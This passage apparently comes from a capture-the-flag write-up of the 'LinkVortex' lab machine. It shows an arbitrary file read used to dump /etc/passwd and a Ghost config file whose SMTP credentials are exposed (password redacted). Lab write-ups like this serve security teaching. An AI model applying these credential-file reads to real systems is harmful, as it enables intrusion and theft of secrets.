 ```bash
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
_apt:x:100:65534::/nonexistent:/usr/sbin/nologin
node:x:1000:1000::/home/node:/bin/bash
```
> We know this is a docker container so `/etc/passwd` won't contain the user we find later
{: .prompt-tip }

In the `dev` repo there's a `Dockerfile` that gives the full path for a configuration file
```bash
┌──(kali@kali)-[~/linkvortex.htb/dev.linkvortex.htb]
└─$ cat Dockerfile.ghost 
FROM ghost:5.58.0

# Copy the config
COPY config.production.json /var/lib/ghost/config.production.json
# ...
```

Reading the conf file leaks credentials
```bash
file> /var/lib/ghost/config.production.json
{
  "url": "http://localhost:2368",
  "server": {
    "port": 2368,
    "host": "::"
  },
  "mail": {
    "transport": "Direct"
  },
  "logging": {
    "transports": ["stdout"]
  },
  "process": "systemd",
  "paths": {
    "contentPath": "/var/lib/ghost/content"
  },
  "spam": {
    "user_login": {
        "minWait": 1,
        "maxWait": 604800000,
        "freeRetries": 5000
    }
  },
  "mail": {
     "transport": "SMTP",
     "options": {
      "service": "Google",
      "host": "linkvortex.htb",
      "port": 587,
      "auth": {
        "user": "bob@linkvortex.htb",
        "pass": "<PASSWORD_REDACTED>"
        }
      }
    }
}
```